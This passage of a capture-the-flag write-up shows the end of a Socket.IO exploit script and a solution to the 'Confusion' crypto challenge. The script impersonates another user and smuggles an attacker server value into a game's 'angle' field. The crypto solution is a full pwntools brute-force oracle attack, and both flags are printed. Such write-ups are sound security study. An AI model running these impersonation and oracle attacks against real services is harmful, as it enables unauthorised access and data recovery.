    @sio.event
    def connect():
        print("[*] Connected to the socket server.")
    
    @sio.event
    def connect_error(data):
        print("[-] Failed to connect:", data)
    
    @sio.event
    def disconnect():
        print("[*] Disconnected from the socket server.")
    
    @sio.on("update_bird_positions")
    def on_update_bird_positions(data):
        print("[*] Updated bird position: ", data)
    
    # connect to the socket server
    print("[*] Connecting to Socket.IO server...")
    # pass cookies as header
    headers = {"Cookie": "; ".join([f"{key}={value}" for key, value in cookies.items()])}
    sio.connect(SOCKET_URL, headers=headers)
    
    time.sleep(1)
    
    user_id = 10 # impersonate another authenticated user
    
    # 1. send an initial movement to register the baseline state.
    initial_payload = {
        "user_id": user_id,
        "x": START_X,
        "y": START_Y,
        "angle": EXPLOIT_SERVER, # we can put the payload here because the application won't care and the anticheat will trigger anyway
    }
    print("[*] Sending initial movement:", initial_payload)
    sio.emit("move_bird", initial_payload)
    
    # 2. wait a very short time to simulate near instantaneous movement.
    time.sleep(0.01)
    
    # 3. send a movement update with an extreme position to trigger anticheat.
    cheat_payload = {
        "user_id": user_id,
        "x": FINAL_X,
        "y": FINAL_Y,
        "angle": EXPLOIT_SERVER, # we can put the payload here because the application won't care and the anticheat will trigger anyway
    }
    print("[*] Sending fast movement to trigger anticheat:", cheat_payload)
    sio.emit("move_bird", cheat_payload)
    
    sio.wait()

if __name__ == "__main__":
    main()

```

execute it and get the flag




and just like that we're back pwning in 2021.

---
Flag: `srdnlen{I_th1nk_h3_r34lly_m3ss3d_up}`


# CRYPTO


## \[CRYPTO\] Confusion

This is a crypto challenge.

```py
def encrypt(msg, key):
    pad_msg = pad(msg, 16)
    blocks = [os.urandom(16)] + [pad_msg[i:i + 16] for i in range(0, len(pad_msg), 16)]

    print(blocks)

    b = [blocks[0]]
    for i in range(len(blocks) - 1):
        tmp = AES.new(key, AES.MODE_ECB).encrypt(blocks[i + 1])
        b += [bytes(j ^ k for j, k in zip(tmp, blocks[i]))]

    c = [blocks[0]]
    for i in range(len(blocks) - 1):
        c += [AES.new(key, AES.MODE_ECB).decrypt(b[i + 1])]

    ct = [blocks[0]]
    for i in range(len(blocks) - 1):
        tmp = AES.new(key, AES.MODE_ECB).encrypt(c[i + 1])
        ct += [bytes(j ^ k for j, k in zip(tmp, c[i]))]

    return b"".join(ct)
```

**Note: I'm not a crypto player!** So I just started doing random things and see if some pattern shows up.
I sent `00*16` multiple times and I noticed that
 - The first block always changes
 - The second block remains the same
 ...

So I just started to brute the flag by doing the following thing:
 - create a long string of 0s so that the first char of the flag goes to the end of a block. Example:
 ```py
 xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
 xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxs
 ...
 ```
 Let's save the ciphertext of this try.
 Now we add to the long string of 0s the character we want to brute. Example:
 ```py
 # Try with a
 xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
 xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxa
 ...
 ```

 ```py
 # Try with b
 xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
 xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxb
 ...
 ```
 ...
  ```py
 # Try with s
 xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
 xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxs
 ...
 ```

 Now we count how many blocks are equal to the ciphertext of the long string of 0s. If >2, then the character is correct.

### Final exploit
 ```py
from pwn import *

p = remote("confusion.challs.srdnlen.it", 1338)

flag = bytes.fromhex(p.recvuntil(b"Want").split()[10].decode())[16:]


def debug(ct):

    blocks = [ct[x:x+16] for x in range(0, len(ct), 16)]

    print("***")
    for x in blocks:
        print(x.hex())

def get_block(ct, zzz):
    return [ct[x:x+16] for x in range(0, len(ct), 16)][zzz]

def count_equals(s1, s2):
    c = 0
    b1 = [s1[x:x+16] for x in range(0, len(s1), 16)]
    b2 = [s2[x:x+16] for x in range(0, len(s2), 16)]
    for x,y in zip(b1, b2):
        if x == y:c += 1
    return c


def encrypt(data):
    # print("SENDING", data.hex())
    p.sendlineafter(b"something?", data.hex())

    p.recvuntil(b"encryption:")
    p.recvline()
    p.recvline()

    ct = bytes.fromhex(p.recvline().split()[1].decode())

    blocks = [ct[x:x+16] for x in range(0, len(ct), 16)]

    return b''.join(blocks)

PADDING = 63

print("***", "TRYING TO BRUTE", "***")


flag = b""

while True:
    a = encrypt(b"\x00"*PADDING)
    to_guess = get_block(a, 2)

    bb = a
    for x in b"srabcdefghijklmnopqtuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{_}0987654321":
        a = encrypt(b"\x00"*PADDING + flag + bytes([x]))
        b = get_block(a, 2)
        if count_equals(bb, a) > 2:
            flag += bytes([x])
            print("OK", bytes([x]), flag)
            PADDING -= 1
            break
    else:
        print("NO")
        break
```
